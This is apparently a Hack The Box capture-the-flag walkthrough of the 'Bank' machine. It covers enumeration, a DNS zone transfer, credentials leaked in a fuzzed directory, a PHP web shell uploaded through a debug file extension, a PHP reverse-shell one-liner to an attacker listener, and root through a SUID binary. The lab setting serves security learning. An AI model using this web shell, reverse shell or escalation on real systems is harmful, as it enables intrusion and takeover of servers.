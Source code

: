 ```
Bank is a relatively simple machine, however proper web enumeration is key to finding the necessary data for entry. There also exists an unintended entry method, which many users find before the correct data is located.
```

## nmap
``` nmap -sC -sV 10.10.10.29 ```

>    tarting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 10:59 CET
	Nmap scan report for 10.10.10.29
	Host is up (0.033s latency).
	Not shown: 997 closed tcp ports (conn-refused)
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
	|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
	|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
	|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
	53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
	| dns-nsid: 
	|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
	80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
	|_http-title: Apache2 Ubuntu Default Page: It works
	|_http-server-header: Apache/2.4.7 (Ubuntu)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
>	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 50.61 seconds

We know thanks to nmap that inside this machine there are 3 open ports, 22, 53 and 80.

## Port 80
By accessing this page we notice the default page of ubuntu server, by adding the domain bank.htb on /etc/hosts we can notice a change to the page by accessing http://bank.htb

We have a login, doing the usual checks for sql injection and a login bypass I get nothing

## Port 53
```
dig axfr bank.htb @10.10.10.29
```
> <<>> DiG 9.20.7 <<>> axfr bank.htb @10.10.10.29
;; global options: +cmd
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
bank.htb.		604800	IN	NS	ns.bank.htb.
bank.htb.		604800	IN	A	10.10.10.29
ns.bank.htb.		604800	IN	A	10.10.10.29
www.bank.htb.		604800	IN	CNAME	bank.htb.
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
;; Query time: 35 msec
;; SERVER: 10.10.10.29#53(10.10.10.29) (TCP)
;; WHEN: Thu Mar 27 18:15:17 CET 2025

we note the following domains:
	1. ns.bank.htb
	2. chris.bank.htb

## Fuzzing
Doing a search with ffuf we can find an interesting directory called **balance-transfer**, this contains several files, one in particular shows some credentials.

http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===

Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
```

## Login
I tried these credentials inside the login of http://bank.htb/login and I was successful, these redirected me to the panel

## Exploit

Browsing through the various pages we immediately notice the support (http://bank.htb/support.php) that allows us to attach a photo, looking at the source code of the page we can notice a comment that says:

```
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```

From here the way is simple, we can simply create a rce that runs on php.
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

To then start:
```
Server: php -r '$sock=fsockopen("10.10.X.X",9001);exec("sh <&3 >&3 2>&3");'

Client: nc -lnvp 9001
```

## RCE

Ok, we're in... let's see who we are right away!
```
>> id
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's set up a shell:
```
>> python3 -c 'import pty; pty.spawn("/bin/bash")'
>> export TERM=xterm
```

Checking the home we find a user named chris, entering it we can find the flag (user.txt)
```
7******************7
```

We check all files with privileges
```
>> find / -perm -4000 -type f 2>/dev/null

/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

Checking all the files we can notice a strange file, a non-normal file... (/var/htb/bin/emergency).
By entering its folder we can try to start it.

```
>> cd /var/htb/bin/
>> ./emergency
```

hmm, we have some sort of shell... let's try to do id

```
>> id
 uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
>> /root
>> ls
	root.txt
>> cat root.txt
	8****************e
```

Okay, this machine was a lot of fun! Most of all it made me think about how many websites can have this kind of vulnerability.

# The End